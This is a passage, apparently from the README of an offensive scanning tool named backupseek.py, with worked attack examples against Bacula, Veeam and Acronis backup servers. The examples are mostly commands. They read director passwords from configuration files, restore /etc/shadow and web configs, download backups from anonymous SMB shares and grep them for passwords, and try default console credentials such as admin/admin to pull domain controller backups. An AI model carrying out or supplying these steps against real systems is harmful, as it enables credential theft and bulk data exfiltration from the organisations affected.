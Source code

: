 ### Example 2: Bacula Configuration Extraction
```bash
# 1. Identify Bacula server
./backupseek.py targets.txt --full
# Found: 192.168.10.51 - Bacula

# 2. If SSH/SMB access to server:
cat /etc/bacula/bacula-dir.conf | grep -i "password"
# Output: Password = "MyDirectorPassword123"

# 3. Connect with bconsole
bconsole
# Enter Director password when prompted

# 4. List backup jobs
*list jobs

# 5. Restore sensitive files
*restore
# Select files: /etc/shadow, /var/www/config.php, etc.
```

### Example 3: Backup Share Access
```bash
# 1. Full scan with shares
./backupseek.py targets.txt --full
# Found: \\192.168.10.50\VeeamBackup

# 2. Test anonymous access
smbclient //192.168.10.50/VeeamBackup -N

# 3. If accessible, download backups
smb: \> ls
# Look for: *.vbk, *.vib, *.vrb, *.bak

# 4. Download config backup
smb: \> get SQLBackup_20250101.bak

# 5. Extract credentials from SQL backup
strings SQLBackup_20250101.bak | grep -i "password"
```

### Example 4: Acronis Exploitation
```bash
# 1. Find Acronis servers
./backupseek.py targets.txt --acronis
# Found: 192.168.10.52 - Acronis Cyber Backup

# 2. Access web console
https://192.168.10.52:44445

# 3. Check for default/weak credentials
# Try: admin/admin, administrator/password

# 4. If successful:
# - Navigate to "Machines" to see all backed up systems
# - Identify domain controllers, database servers
# - Access "Recovery" to download backups
# - Extract .tib files and mount with Acronis tools
```
